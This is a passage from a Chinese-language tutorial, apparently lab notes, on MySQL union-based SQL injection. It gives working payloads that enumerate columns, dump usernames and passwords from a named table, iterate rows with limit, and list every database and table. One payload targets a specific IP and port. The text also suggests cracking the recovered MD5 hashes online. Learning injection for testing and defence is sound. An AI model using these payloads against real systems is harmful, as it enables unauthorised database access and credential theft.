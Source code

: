 #### 查询指定表名下的列名

根据刚才收集的表名StormGroup_member，查询该表的所有列名：

```mysql
?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name= 'StormGroup_member'
```

![image-20220726145307736](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726145307736.png)

#### 查询指定数据

根据刚才收集的表名、列名，可以查询该表的指定数据：

```mysql
?id=-1 union select 1,name,password,4 from StormGroup_member
```

![image-20220726145504487](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726145504487.png)

指定数据可能有多个结果，可以使用`limit x,1`（从x的位置读取1条记录），变动猜解，得到不同结果：

```mysql
http://219.153.49.228:48354/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member limit 2,1
```

得到的密码一般为MD5，去cmd5.com碰撞一下。

![image-20220726145823634](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726145823634.png)

### 跨库查询

MYSQL 注入中首先要明确**当前注入点权限**（取决于注入点所使用的数据库用户的权限，使用user()语句查询），高权限注入时有更多的攻击手法，有的能直接进行 getshell 操作。 

比如上述注入中借助的是root账户的权限进行数据库操作，若root用户具有当前数据库之外的操作权限，那么就可以注入其他数据库获取想要的信息。

imformation_schema除了记录有所有的表名、列名，还有所有的数据库名：

`imformation_schema.schemata`：记录所有数据库名信息的表（跨库），其中字段`schema_name`表示数据库名。

**查询的前提是用户具有相应的权限。**

#### 查询所有的数据库名

```mysql
?id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata
```

![image-20220726155012588](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726155012588.png)

#### 查询指定数据库下的表名信息

```mysql
id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='qqyw'
```
